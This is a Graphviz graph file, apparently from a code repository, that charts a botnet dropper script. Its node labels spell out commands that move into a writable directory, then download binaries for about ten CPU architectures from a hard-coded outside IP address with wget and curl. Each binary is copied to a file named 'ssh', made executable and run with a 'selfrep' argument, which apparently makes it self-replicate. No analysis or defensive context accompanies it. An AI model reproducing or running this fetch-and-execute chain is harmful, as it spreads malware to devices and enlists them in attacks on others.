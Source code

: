 digraph {
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 10 [label="||,"];
10 [label="wget http://185.244.25.153/bins/x86 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.244.25.153/bins/x86 "];
12 -> 14 [label=";,"];
14 [label="cat x86 ssh "];
14 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 32 [label="||,"];
32 [label="wget http://185.244.25.153/bins/mips "];
32 -> 34 [label=";,"];
34 [label="curl -O http://185.244.25.153/bins/mips "];
34 -> 36 [label=";,"];
36 [label="cat mips ssh "];
36 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 54 [label="||,"];
54 [label="wget http://185.244.25.153/bins/mpsl "];
54 -> 56 [label=";,"];
56 [label="curl -O http://185.244.25.153/bins/mpsl "];
56 -> 58 [label=";,"];
58 [label="cat mpsl ssh "];
58 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 76 [label="||,"];
76 [label="wget http://185.244.25.153/bins/arm4 "];
76 -> 78 [label=";,"];
78 [label="curl -O http://185.244.25.153/bins/arm4 "];
78 -> 80 [label=";,"];
80 [label="cat arm4 ssh "];
80 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 98 [label="||,"];
98 [label="wget http://185.244.25.153/bins/arm5 "];
98 -> 100 [label=";,"];
100 [label="curl -O http://185.244.25.153/bins/arm5 "];
100 -> 102 [label=";,"];
102 [label="cat arm5 ssh "];
102 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 120 [label="||,"];
120 [label="wget http://185.244.25.153/bins/arm6 "];
120 -> 122 [label=";,"];
122 [label="curl -O http://185.244.25.153/bins/arm6 "];
122 -> 124 [label=";,"];
124 [label="cat arm6 ssh "];
124 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 142 [label="||,"];
142 [label="wget http://185.244.25.153/bins/arm7 "];
142 -> 144 [label=";,"];
144 [label="curl -O http://185.244.25.153/bins/arm7 "];
144 -> 146 [label=";,"];
146 [label="cat arm7 ssh "];
146 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 164 [label="||,"];
164 [label="wget http://185.244.25.153/bins/ppc "];
164 -> 166 [label=";,"];
166 [label="curl -O http://185.244.25.153/bins/ppc "];
166 -> 168 [label=";,"];
168 [label="cat ppc ssh "];
168 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 186 [label="||,"];
186 [label="wget http://185.244.25.153/bins/m68k "];
186 -> 188 [label=";,"];
188 [label="curl -O http://185.244.25.153/bins/m68k "];
188 -> 190 [label=";,"];
190 [label="cat m68k ssh "];
190 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
217 [label="./ssh selfrep "];
217 -> 198 [label=";,"];
198 [label="cd /tmp "];
198 -> 198
200 [label="cd /var/run "];
200 -> 202 [label="||,"];
202 [label="cd /mnt "];
202 -> 204 [label="||,"];
204 [label="cd /root "];
204 -> 206 [label="||,"];
206 [label="cd / "];
206 -> 208 [label="||,"];
208 [label="wget http://185.244.25.153/bins/sh4 "];
208 -> 210 [label=";,"];
210 [label="curl -O http://185.244.25.153/bins/sh4 "];
210 -> 212 [label=";,"];
212 [label="cat sh4 ssh "];
212 -> 214 [label=";,"];
214 [label="ssh "];
214 -> 214
216 [label="chmod +x * "];
216 -> 217 [label=";,"];
}
